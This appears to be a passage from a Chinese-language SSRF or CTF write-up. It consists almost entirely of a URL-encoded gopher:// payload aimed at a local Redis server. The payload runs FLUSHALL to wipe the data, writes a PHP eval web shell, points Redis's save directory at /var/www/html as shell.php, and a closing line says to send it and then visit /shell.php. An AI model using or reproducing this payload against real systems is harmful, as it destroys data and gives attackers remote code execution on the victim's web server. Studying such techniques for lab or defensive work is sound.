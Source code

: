 ```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2429%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5Bx%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

<img src=".\图片\3bc919fe85ea40f359a96c6391cb37370.jpg" alt="在这里插入图片描述" style="zoom:80%;" />

<img src=".\图片\3bc919fe85ea40f359a96c639cb37370.jpg" alt="3bc919fe85ea40f359a96c639cb37370" style="zoom: 80%;" />

然后打过去，访问 `/shell.php` 就可以了。
